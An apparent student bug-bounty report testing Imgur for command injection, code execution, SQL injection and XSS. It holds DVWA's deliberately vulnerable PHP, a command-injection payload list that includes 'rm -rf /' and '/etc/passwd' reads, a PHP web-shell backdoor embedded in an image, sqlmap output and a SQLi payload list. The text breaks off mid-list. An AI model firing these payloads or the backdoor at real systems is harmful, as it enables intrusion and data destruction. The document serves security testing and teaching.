

# Imgur bug bounty report
_"The most awesome images on the Internet."_

### Report structure
1.  Introduction, threat theory, vulnerability description
2.  Information gathering, threat modeling, discoveries, findings
3.  Testing walk-through with technical details

# Introduction, threat theory, vulnerability description

### Team info
- Jiří Pašek (pasekji1)
- ~~Patrik Martinec (martipa9)~~

### Score system
- 'durable' - nothing that seems somehow vulnerable, secured...
- 'somehow durable' - secure, but some additional layers could be used...
- 'not durable' - insecure, open threat...

## The Imgur Story
Imgur is the easiest way to discover and enjoy the magic of the Internet. Every day, millions of people use Imgur to be entertained and inspired by funny, heartwarming and helpful images and stories from all around the world.
Imgur was started in Athens, Ohio as Alan Schaaf's side project as he attended Ohio University for computer science. The service, which the creator first described as "an image hosting service that doesn't suck," was created as a response to the usability problems encountered in similar services. Imgur took off almost instantly, jumping from a thousand hits per day to a million total page views in the first five months. Imgur became widely recognized following its rise to popularity on social news websites such as Reddit and Digg.
In the beginning, Imgur relied on donations to help with the web hosting costs. As the site grew, additional sources of revenue were needed to keep up with demand. Display ads were introduced in May 2009; sponsored images and self-service ads were introduced in 2013.
In order to scale and manage growth, Imgur used three different hosting providers in the first year before settling on Voxel, then switching to Amazon Web Services in late 2011.
In January 2011, the company moved from Ohio to San Francisco, CA. We won the Best Bootstrapped Startup award at TechCrunch's 2012 and 2014 Crunchies Awards. In April 2014, Imgur accepted a $40 million investment from Andreessen Horowitz, along with a smaller contribution from Reddit. We currently have over 60 employees and quite a lot of office dogs.

### Timeline of Imgur
- **2009**: Alan Schaaf creates and launches Imgur in his Ohio University dorm room as a simple, no-limits platform to shares images online.
- **2010**: Imgur launches the Gallery, which organizes and showcases the most popular visual stories on Imgur.
- **2011**: Imgur wins "Best Bootstrapped Startup" at the TechCrunch "Crunchies" Awards.
- **2012**: Imgur launches User Submitted, giving Imgurians new ways to share images on Imgur, explore and curate content.
- **2013**: Imgur crosses 100 million monthly active users and wins "Best Bootstrapped Startup" at the TechCrunch "Crunchies" Awards for the second time.
- **2014**: Imgur raises $40 million from Andreessen Horowitz and Reddit, its first external investment.
- **2015**: Imgur crosses 150 million monthly active users and wins 2015 Webby awards for Best Social Media and Best Community Website.

Imgur bug bounty program is provided by [HackerOne.com](https://hackerone.com/imgur). 

## Policy
- Do not make any information public until the issue has been resolved.
- Make a good faith effort to avoid interruption or degradation of our services.
- Do not access or modify data that does not belong to you - create a free account to test with.
- Making many substantially similar reports will only be eligible for one bounty award and marked as duplicate. For example, the same vulnerability reported across multiple subdomains. Please consolidate these issues into a single report.
- Please try to limit the number of times you follow up on a report. Making daily comments only adds to our workload and makes turnaround time longer for everyone.
- This bounty program is only concerned with security-related bugs, please e-mail support@imgur.com for all other bugs.

## Scope
We are interested in hearing about any security flaw. This could include, but is not limited to:

- Anything that leaks personal user data, e.g. emails, passwords, content a user has set to private or deleted.
- Accessing someone's account without their knowledge.
- Bug exposing a way to perform an action on behalf of another user.
- Changing a user's settings without their knowledge.
- Changing values of any site-wide data.
- Programmatically deleting images that don't belong to you.
- Cross-site scripting.

### Domains under Scope
- imgur.com
- i.imgur.com
- api.imgur.com

### Vulnerability Types
* Remote Shell / Command Injection
* Remote Code Execution
* SQL Injection (with output)
* Significant Authentication Bypass
* Local File Inclusion
* SQL Injection (blind)
* Insecure Direct Object References
* Server Side Request Forgery
* Stored Cross-Site Scripting
* Other Cross-Site Scripting

## 2. Remote Shell / Command Injection
Command injection is an attack in which the goal is an execution of arbitrary commands on the host operating system via a vulnerable application. 
Command injection attacks are possible when an application passes unsafe user-supplied data (forms, cookies, HTTP headers, etc.) to a system shell. 
In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. 
Command injection attacks are possible largely due to insufficient input validation.

This attack differs from Code Injection, in that code injection allows the attacker to add his own code that is then executed by the application. 
In Command Injection, the attacker extends the default functionality of the application, which executes system commands, without the necessity of injecting code. [1]

### Command Injection descriptive explanation
_"Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application that is damn vulnerable. 
Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, 
help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a classroom environment."_ [2]

The purpose of the command injection attack is to inject and execute commands specified by the attacker in the vulnerable application. 
In a situation like this, the application, which executes unwanted system commands, is like a pseudo system shell, and the attacker may use it as any authorized system user. 
However, commands are executed with the same privileges and environment as the web service has.
Command injection attacks are possible in most cases because of a lack of correct input data validation, which can be manipulated by the attacker (forms, cookies, HTTP headers, etc.).
The syntax and commands may differ between the Operating Systems (OS), such as Linux and Windows, depending on their desired actions.
This attack may also be called "Remote Command Execution (RCE)".

#### Low-level security Command Injection
This allows for direct input into one of many PHP functions that will execute commands on the OS. 
It is possible to escape out of the designed command and executed unintentional actions.
This can be done by adding on to the request, "once the command has executed successfully, run this command". 

##### Low level security Command Injection vulnerable application
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

#### Medium-level security Command Injection
The developer has read up on some of the issues with command injection and placed in various pattern matching to filter the input. However, this isn't enough.
Various other system syntaxes can be used to break out of the desired command.

##### Medium level security Command Injection vulnerable application
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

#### High-level security Command Injection 
In the high level, the developer goes back to the drawing board and puts in even more patterns to match. But even this isn't enough.
The developer has either made a slight typo with the filters and believes a certain PHP command will save them from this mistake.

##### High level security Command Injection vulnerable application
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

#### Impossible level security Command Injection
In the impossible level, the challenge has been re-written, only to allow a very restricted input. 
If this doesn't match and doesn't produce a certain result, it will not be allowed to execute. 
Rather than "blacklisting" filtering (allowing any input and removing unwanted), this uses "whitelisting" (only allow certain values).

##### Impossible level security Command Injection vulnerable application
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

## 3. Remote Code Execution
- Remote Code Execution attack is slightly different from the simple Command Injection exploitation. 
- It can be viewed as the execution of some potentially harmful binary file at the target remote server.

## 4. SQL injection
- SQL Injection (SQLi) is a type of injection attack that makes it possible to execute malicious SQL statements. 
- These statements control a database server behind a web application. 
- Attackers can use SQL Injection vulnerabilities to bypass application security measures. 
- They can go around authentication and authorization of a web page or web application and retrieve the content of the entire SQL database. 
- They can also use SQL Injection to add, modify, and delete records in the database.

#### How to prevent SQLi? 
- The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements. 
- The application code should never use the input directly. 
- The developer must sanitize all input, not only web form inputs such as login forms. 
- They must remove potential malicious code elements such as single quotes. 
- It is also a good idea to turn off the visibility of database errors on your production sites. 
- Database errors can be used with SQL Injection to gain information about your database.
- SQLi can be done by both url querries f.e. (imgur.com/search/score?q=otter) or by passing the SQL queries directly through the text forms.

## 5. Cross Site Scripting
- Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. 
- It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. 
- Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform and to access any of the user's data. 
- If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

### Reflected cross-site scripting
- Reflected XSS is the simplest variety of cross-site scripting. 
- It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
- Here is a simple example of a reflected XSS vulnerability:
```html
https://insecure-website.com/status?message=All+is+well.

<p>Status: All is well.</p>
```
- The application doesn't perform any other processing of the data, so an attacker can easily construct an attack like this:
```html
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>

<p>Status: <script>/* Bad stuff here... */</script></p>
```
- If the user visits the URL constructed by the attacker, then the attacker's script executes in the user's browser, in the context of that user's session with the application. 
- At that point, the script can carry out any action, and retrieve any data, to which the user has access.

### Stored cross-site scripting
- Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.
- The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. In other cases, the data might arrive from other untrusted sources; for example, a webmail application displaying messages received over SMTP, a marketing application displaying social media posts, or a network monitoring application displaying packet data from network traffic.
- Here is a simple example of a stored XSS vulnerability. A message board application lets users submit messages, which are displayed to other users:
```html
<p>Hello, this is my message!</p>
```
- The application doesn't perform any other processing of the data, so an attacker can easily send a message that attacks other users:
```html
<p><script>/* Bad stuff here... */</script></p>
```

### DOM-based cross-site scripting
- DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.
- In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:
```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```
- If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute:
```html
You searched for: 
```
- In a typical case, the input field would be populated from part of the HTTP request, such as a URL query string parameter, allowing the attacker to deliver an attack using a malicious URL, in the same manner as reflected XSS.

## 6. User security / Authentication bypass
- Authentication plays a critical role in the security of web applications. 
- When a user provides his login name and password to authenticate and prove his identity, the application assigns the user specific privileges to the system, based on the identity established by the supplied credentials.
- It is often possible to bypass authentication measures by tampering with requests and tricking the application into thinking that we're already authenticated. 
- This can be accomplished either by modifying the given URL parameter or by manipulating the form or by counterfeiting sessions.

# Information gathering, threat modeling, discoveries, findings

## 1. Information Gathering
- We need to gather some information about our target before the testing process. 
- There're two useful tools which we'll use for information gathering - Maltego and Nexpose.
- [Maltego PDF export](https://docdro.id/L4E7PyY)
- [Nexpose audit export](imgur_nexpose_report/Document.md)
- We can see that the imgur security level is quite advanced and probably only experts in ethical hacking could break the more advanced vulnerabilities.
- No critical issues occurred, all the issues were only at a severe level. 
- Nexpose found some XSS vulnerabilities and we will examine and test them.[XSS vulnerability](imgur_nexpose_report/Document.md#321-cross-site-scripting-vulnerability-http-cgi-0010)
- There is also autocomplete enabled for sensitive HTML formats, that could be also some harmful issue. [Autocomplete HTML forms](imgur_nexpose_report/Document.md#326-autocomplete-enabled-for-sensitive-html-form-fields-spider-sensitive-form-data-autocomplete-enabled )
- The rest contained only some TLS/SSL and Cookie headers, that are not required in the bug bounty program scope, but we could still examine them in the spare time.  
- Nexpose did not find anything related to Remote execution, Command Injection or SQL Injection, but there is no reason to test it manually ourselves.

### Threat model
- **Threat model diagram**



[Detailed threat model with threat descriptions](threat-model-detailed.png)

## Conclusion of results and discoveries
Now it is the time to summarize the pieces of information gathered and tested.
- API domain (api.imgur.com) was not tested.
- The image domain (i.imgur.com) was not tested.
- **Image search application is durable to the command injection technique.**
- **Video to gif function was tested for command injection with no vulnerable outcomes. - imgur.com/vidgif**
- **Image upload form is somehow durable to the unintended image formats because there could've been more into depth analysis for the potential harm of file uploaded.**
- **Imgur is durable to PHP remote code executions via uploaded images.**
- **Video to gif function was tested for remote code execution with no vulnerable outcomes. - imgur.com/vidgif**
- **All fields (username, password, email, etc...) were tested in SQLi part.**
- **Imgur is durable to SQLi via the search function and login/register forms.**
- **Imgur profile settings fields were tested for SQLi with no vulnerable outcomes. - imgur.com/account/settings**
- **Imgurs advanced search functions seem durable to the XSS.**
- **Imgur profile settings fields were tested for XSS with no vulnerable outcomes. - imgur.com/account/settings**
- **Video to gif function was also for XSS with no vulnerable outcomes. - imgur.com/vidgif**
- **Imgur login/register forms were tested for XSS with no vulnerable outcomes.**
- **The sign in form is durable to automated brute force tools techniques.**
- Other segments were not suspicious in for vulnerability at the time of information gathering, therefore they were not tested.


### Imgur search bar - Command Injection testing
- In this test, we'll use our list of test commands and the burpsuite tool.
- At first, let's intercept the GET request to the imgur searchability in burpsuite.
- Here we've got the intercepted request of searching string "lol" in the raw format. 

```xml
GET /search?q=lol HTTP/1.1
Host: imgur.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://imgur.com/search?q=lol
Cookie: __cfduid=d47c5a597f5aaf36924847b16ac9d9fe51528660130; IMGURSESSION=e51a914f2c5f3eff538c49e92bd5d8b6; frontpagebetav2=1; fp=3651187010094464; m_sort=score; m_window=all; m_section=hot; m_adv_search=%7B%22queries%22%3A%5B%5D%2C%22filters%22%3A%5B%5D%2C%22raw%22%3A%7B%22q_size_is_mpx%22%3A%22off%22%7D%2C%22style%22%3A%22thumbs%22%7D; m_search_query=lol; _nc=1
Connection: close
Upgrade-Insecure-Requests: 1
```
- The payload will be only one and it'll be the **GET /search?q**="_lol_". Injected value will look f.e. as follows "_ls && whoami_".
- Now we'll need some payload list of commands that we'll try to inject into the imgur servers system. 

```bash
ls
date
ls & ping -i 30 127.0.0.1
date & ping -c 30 127.0.0.1
date || ping -i 30 127.0.0.1
echo "Harold..."; ping -i 30 127.0.0.1
pwd & `ping 127.0.0.1`
lscpu; echo "Hide the pain!"
id & ls 
id;ls
id & cat /etc/passwd
`id`
id & sleep 30
echo $((13 + 8))
rm -rf / && echo "I am dead..."
SECRET = "imgur ƨuckƨ aƨƨ"
doggo & ping -i 30 127.0.0.1
doggo & ping -c 30 127.0.0.1
doggo || ping -i 30 127.0.0.1
doggo; ping -i 30 127.0.0.1
doggo & `ping 127.0.0.1`
doggo; echo "need chimken nuggers!"
doggo & ls 
doggo;ls
doggo; sleep 10
doggo
```

- There are several commands, such as **sleep 10**, which need some time to respond. Therefore even if it seemed we were not successful and we did not get any reasonable response, we can still consider that the command was successfully injected, if a significant delay in response occurred.
- After checking the responses, there wasn't any sign of the possibility of command injection vulnerability via the image search bar. No significant delays also weren't the case.
- **Image search application is durable to the command injection technique.**
- **Video to gif function was also tested for command injection with the above test with no vulnerable outcomes. - imgur.com/vidgif**


- We will try to exploit the RCE via image upload function by uploading the exploitable PHP or JS script with spoofed extension.

#### Simple PHP test script
```php
<?php  
$x = 15;  
$y = 30;  
$z = $x + $y;  
echo "Sum: ",$z;
?>
```

#### PHP backdoor exploitation shell
```php
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```

- We will try either spoofing the file extensions or injecting the code to this image. 

- First, let's try to upload a PHP script file. 

- The image upload form doesn't accept this file, simple change of extension isn't enough, let's try injecting the code to the legit image file.
- We're going to use the exiftool in kali linux. 

- Now we have a PHP executable code hidden in the image file.

- Now the image pass the upload, here is it's URL - [php injected image](https://i.imgur.com/S1kDI8Y.jpg)
- But is there a way to run the injected code on the remote server?
- After some trying and researching we were not successful in executing the injected code on the remote server, the case is probably server absence or restrictions to php.
- The backdoor shell script injection was also inconclusive due to the same reasons. 
- **Image upload form is somehow durable to the unintended image formats because there could've been more into depth analysis for the potential harm of file uploaded.**
- **Imgur is durable to PHP remote code executions via uploaded images.**
- **Video to gif function was also tested for remote code execution with the above test with no vulnerable outcomes. - imgur.com/vidgif**


#### Exploitation - SQLmap tool
- SQLmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
- Works with many database types, MySQL, mssql, etc...
- We'll start by using this tool to get the information about the injectability of the imgur service.
- Let's use the imgur search bar for this task once again.
- This command uses the most advanced level of testing because of the --risk and --level options.

```bash
sqlmap --risk=3 --level=5 -u "https://imgur.com/search?q=otter"
```

- Command line export of SQLmap process 

```bash
root@kali:~# sqlmap --risk=3 --level=5 -u "https://imgur.com/search?q=otter"

[*] starting at 00:23:09

[00:23:09] [INFO] testing connection to the target URL
[00:23:10] [INFO] testing if the target URL content is stable
[00:23:10] [INFO] target URL content is stable
[00:23:10] [INFO] testing if GET parameter 'q' is dynamic
[00:23:11] [INFO] confirming that GET parameter 'q' is dynamic
[00:23:11] [INFO] GET parameter 'q' is dynamic
[00:23:12] [WARNING] heuristic (basic) test shows that GET parameter 'q' might not be injectable
[00:23:12] [INFO] testing for SQL injection on GET parameter 'q'
[00:23:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:23:14] [WARNING] reflective value(s) found and filtering out
[00:24:12] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:25:14] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:26:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:26:56] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:27:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[00:27:36] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[00:27:47] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[00:27:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:28:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:28:46] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[00:29:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[00:29:40] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[00:30:06] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[00:30:49] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[00:31:34] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[00:32:03] [INFO] GET parameter 'q' appears to be 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)' injectable (with --string="XX")
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[00:34:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[00:34:41] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[00:34:48] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[00:34:55] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[00:35:01] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[00:35:10] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[00:35:17] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[00:35:25] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[00:35:33] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[00:35:41] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[00:35:49] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[00:36:26] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[00:36:26] [INFO] checking if the injection point on GET parameter 'q' is a false positive
[00:36:27] [WARNING] false positive or unexploitable injection point detected
[00:36:27] [WARNING] GET parameter 'q' does not seem to be injectable
[00:36:27] [INFO] testing if Host parameter 'Host' is dynamic
[00:36:27] [INFO] heuristics detected web page charset 'ascii'
[00:36:27] [INFO] confirming that Host parameter 'Host' is dynamic
[00:36:27] [INFO] Host parameter 'Host' is dynamic
[00:36:27] [WARNING] heuristic (basic) test shows that Host parameter 'Host' might not be injectable
[00:36:27] [INFO] testing for SQL injection on Host parameter 'Host'
[00:36:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:36:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:36:42] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:36:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:36:54] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:36:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[00:36:59] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[00:37:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[00:37:01] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[00:37:01] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[00:37:02] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[00:37:02] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[00:37:02] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[00:37:02] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[00:37:07] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[00:37:35] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
[00:37:38] [INFO] target URL appears to be UNION injectable with 9 columns
[00:37:40] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
it is not recommended to perform extended UNION tests if there is not at least one other (potential) technique found. Do you want to skip? [Y/n] Y
[00:38:13] [WARNING] Host parameter 'Host' does not seem to be injectable
[00:38:13] [INFO] testing if User-Agent parameter 'User-Agent' is dynamic
[00:38:13] [INFO] confirming that User-Agent parameter 'User-Agent' is dynamic
[00:38:14] [INFO] User-Agent parameter 'User-Agent' is dynamic
[00:38:14] [WARNING] heuristic (basic) test shows that User-Agent parameter 'User-Agent' might not be injectable
[00:38:15] [INFO] testing for SQL injection on User-Agent parameter 'User-Agent'
[00:38:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:38:59] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:39:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:40:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:40:44] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:41:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[00:41:09] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[00:41:15] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[00:41:22] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[00:41:23] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[00:41:23] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[00:41:24] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[00:41:25] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[00:41:26] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[00:41:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[00:44:33] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
[00:47:18] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
[00:47:18] [INFO] testing if Referer parameter 'Referer' is dynamic
[00:47:18] [INFO] confirming that Referer parameter 'Referer' is dynamic
[00:47:18] [INFO] Referer parameter 'Referer' is dynamic
[00:47:19] [WARNING] heuristic (basic) test shows that Referer parameter 'Referer' might not be injectable
[00:47:20] [INFO] testing for SQL injection on Referer parameter 'Referer'
[00:47:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:47:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[00:48:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[00:48:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:49:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[00:49:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[00:49:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[00:49:46] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[00:49:51] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[00:49:51] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[00:49:52] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[00:49:53] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[00:49:53] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[00:49:54] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[00:50:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[00:52:30] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
[00:54:49] [WARNING] Referer parameter 'Referer' does not seem to be injectable
[00:54:49] [CRITICAL] all tested parameters do not appear to be injectable. Also, you can try to rerun by providing a valid value for option '--string' as perhaps the string you have chosen does not match exclusively True responses. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')

[*] shutting down at 00:54:49
```

- Other forms and applications at imgur are not suitable for SQLmap tests, because they're not using URL queries or there are some additional securities like reCAPTCHA.


#### Exploitation - Burpsuite & SQLi
- Burpsuite can be also used to test SQLi vulnerability. 
- Because the imgur search bar did not seem injectable, we'll test the imgur login page for SQLi.
- SQLi list of payloads tested

```sql
'
"
#
-
--
'%20--
--';
'%20;
=%20'
=%20;
=%20--
\x23
\x27
\x3D%20\x3B'
\x3D%20\x27
\x27\x4F\x52 SELECT *
\x27\x6F\x72 SELECT *
'or%20select *
admin'--
<>"'%;)(&+
'%20or%20''='
'%20or%20'x'='x
"%20or%20"x"="x
')%20or%20('x'='x
0 OR 1=1
' or 0=0 --
" or 0=0 --
or 0=0 --
' OR 0=0 #
" or 0=0 #
or 0=0 #
' or 1=1--
" OR 1=1--
' or '1'='1'--
"' OR 1 --'"
OR 1=1--
or%201=1
or%201=1 --
' or 1=1 or ''='
" or 1=1 or ""="
' or a=a--
" or "a"="a
') OR ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' OR 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
'hi' OR 'x'='x';
@variable
,@variable
PRINT
PRINT @@variable
SELECT
INSERT
AS
OR
